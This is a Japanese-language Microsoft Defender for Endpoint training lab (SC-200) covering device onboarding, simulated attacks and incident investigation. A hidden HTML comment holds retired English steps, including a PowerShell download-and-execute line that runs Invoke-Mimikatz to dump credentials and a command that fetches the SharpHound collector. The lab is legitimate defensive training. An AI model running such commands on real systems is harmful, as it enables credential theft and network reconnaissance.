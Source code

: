 ```yaml
---
lab:
  title: 演習 2 - Microsoft Defender for Endpoint を使用した攻撃の軽減
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# ラーニング パス 2 - ラボ 1 - 演習 2 - Microsoft Defender for Endpoint を使用した攻撃の軽減

## ラボのシナリオ

![ラボの概要。](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

あなたは Microsoft Defender for Endpoint を実装している企業で働いているセキュリティ運用アナリストです。 あなたの上司は、いくつかのデバイスをオンボードして、セキュリティ オペレーション (SecOps) チームの応答手順で必要な変更に関する情報を提供しようとしています。

Defender for Endpoint の攻撃緩和機能を確認するため、シミュレーション攻撃を 2 回行います。

>**メモ:** このラボをご自分のペースでクリックして進めることができる、 **[ラボの対話型シミュレーション](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** が用意されています。 対話型シミュレーションとホストされたラボの間に若干の違いがある場合がありますが、示されている主要な概念とアイデアは同じです。


### タスク 1: デバイスのオンボードを確認する

このタスクでは、デバイスが正常にオンボードされていることを確認し、テスト アラートを作成します。

1. Microsoft Edge ブラウザーの Microsoft Defender XDR ポータルにまだアクセスしていない場合は、(https://security.microsoft.com) に移動して、お使いになっているテナントの管理者としてログインします。

1. 左側のメニューの **[アセット]** 領域の下で **[デバイス]** を選択します。 [デバイス] ページに WIN1 が表示されるまで待ち続けます。 そうしないと、後で生成されるアラートを表示するために、このタスクを繰り返さなければならなくなる可能性があります。

    >**注:**  オンボード プロセスを完了してから 1 時間経ってもデバイス一覧にデバイスが表示されない場合は、オンボードまたは接続に問題があるおそれがあります。

1. 左側のメニュー バーから **[設定]** を選択し、設定 ページから **[エンドポイント]** を選択します。

1. [デバイス管理] セクションで **[オンボード]** を選択し、 *[Windows 10 と 11]* がオペレーティング システムとして選択されていることを確認します。 *"最初のデバイスがオンボードされました"* というメッセージが *[完了]* と表示されるようになります。

1. 下にスクロールし、セクション *[2. 検出テストを実行します]* の下で **[コピー]** ボタンを選択して、検出テストのスクリプトをコピーします。  

1. WIN1 仮想マシンの Windows 検索バーで「**CMD**」と入力し、コマンド プロンプト アプリの右側のペインで **[管理者として実行]** を選択します。 

1. [ユーザー アカウント制御] ウィンドウが表示されたら **[はい]** を選択し、アプリの実行を許可します。 

1. **[管理者: コマンド プロンプト]** ウィンドウでスクリプトを右クリックして貼り付け、**Enter** キーを押して実行します。

    >**注:**  スクリプトの実行後、ウィンドウは自動的に閉じます。

### タスク 2: シミュレーション攻撃

>**注:**  ポータルの評価ラボおよびチュートリアルとシミュレーションのセクションは使用できなくなりました。 次の手順は、参照目的でのみ記載しています。 攻撃シミュレーションのデモについては、**[対話型ラボ シミュレーション](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** を参照してください。 現在、攻撃シミュレーションの代替機能を模索しているところです。

<!--- In this task, you will run two *simulated* attacks using *PowerShell* on *WIN1* to explore the capabilities of Microsoft Defender for Endpoint.

`Attack 1: Mimikatz - Credential Dumping`

1. On the *WIN1* machine, type **Command** in the search bar and select **Run as administrator**.

1. Copy and paste the following command in the **Administrator: Command Prompt** window and press **Enter** to run it.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. You should see a message that says *Access is denied*, and a pop-up message from `Microsoft Defender Antivirus, Windows Security Virus and threats protection` displaying *Threats found*.

1. Exit the **Administrator: Command Prompt** window by typing **exit** and pressing **Enter**.

`Attack 2: Bloodhound - Collection`

1. On the *WIN1* machine, type **PowerShell** in the search bar, select **Windows PowerShell** and select **Run as administrator**.

1. Copy and paste the following commands in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Note:** It is recommended to copy, paste and run the commands one at a time. You can open *Notepad* and copy the commands into a temporary file to accomplish this. The first command creates a folder named *ExternalPayloads* in the same folder where the *Atomic Red Team* folder is located. The second command downloads the *SharpHound.ps1* file from the *BloodHound* GitHub repository and saves it in the *ExternalPayloads* folder.

1. You should see a  pop-up message from `Windows Security Virus and threats protection` displaying *Threats found*.

1. Copy and paste the following command in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. If the output is *True*, the Malware payload file has not been removed by Microsoft Defender Antivirus. If the output is *False*, the Malware payload file has been removed by Microsoft Defender Antivirus. Use the up-arrow key to repeat the command until the output is *False*. --->

1. 左側のメニューの **[エンドポイント]** の下で、 **[評価とチュートリアル]** を選択し、左側から **[チュートリアルとシミュレーション]** を選択します。

1. **[チュートリアル]** タブを選択します。

1. *[Automated investigation (backdoor)](自動調査 (バックドア))* に、シナリオを説明するメッセージが表示されます。 この段落の下にある **[Read the walkthrough](チュートリアルの読み取り)** をクリックします。 シミュレーションを実行する手順を含む新しいブラウザー タブが開きます。

1. 新しいブラウザー タブで、 **[シミュレーションの実行]** という名前のセクション (5 ページの手順 2 から) を見つけ、次の手順に従って攻撃を実行します。 **ヒント:** シミュレーション ファイル *RS4_WinATP-Intro-Invoice.docm* は、ポータルに戻り、 **[Get simulation file](シミュレーション ファイルの取得)** ボタンを選択して、前の手順で選択した **[Read the walkthrough](チュートリアルを読み取る)** の下に表示されます。

<!--- 1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### タスク 3: 攻撃を調査する

1. Microsoft Defender XRD ポータルで、左側のメニュー バーから **[インシデントとアラート]** を選び、**[インシデント]** を選びます。

1. [Multiple threat families detected on one endpoint]\(1 つのエンドポイントで複数の脅威ファミリが見つかりました\) という新しいインシデントが右側のウィンドウに表示されています。 インシデント名を選択して詳細を読み込みます。

    >**注:**  **[アラート]** ウィンドウに、"Bloodhound" と Mimikatz* の両方のアラートが表示されます。** **[Assets/Devices]\(資産/デバイス\)** では、"WIN1" コンピューターの **[リスク レベル]** が [高] になります。****

1. **[インシデントの管理]** ボタンを選択すると、新しいウィンドウ ブレードが表示されます。 

1. **[Incident tags]\(インシデント タグ\)** に「Simulation」と入力し、**[Simulation (Create new)]\(シミュレーション (新規作成)\)** を選んで新しいタグを作成します。 

1. **[割り当て先]** トグルを選択して、インシデントの所有者として自分のユーザー アカウント (Me) を追加します。 

1. **[分類]** で、ドロップダウン メニューを展開します。 

1. **[情報、予期されるアクティビティ]** で、 **[セキュリティ テスト]** を選択します。 

1. 必要に応じてコメントを追加し、 **[保存]** を選択してインシデントを更新し、完了します。

1. *[Attack story] (攻撃ストーリー)、[アラート]、[資産]、[調査]、[Evidence and Response] (証拠と応答)* 、および *[概要]* タブの内容を確認します。 デバイスとユーザーは *[資産]* タブにあります。 *[Attack story] (攻撃ストーリー)* タブには "インシデント グラフ" が表示されます。** **ヒント:** 一部のタブは、ディスプレイのサイズが原因で非表示になる場合があります。 省略記号タブ (...) を選択して表示します。

    >**警告:** ここでのシミュレーション攻撃は、実践を通して学ぶための優れた情報源です。 コースで提供される Azure テナントを使用する場合は、このラボで提供されている手順で推奨されている攻撃のみを実行してください。  他のシミュレーション攻撃は、このテナントでこのトレーニング コースが完了した "後" に実行できます。**

## これでラボは完了です。
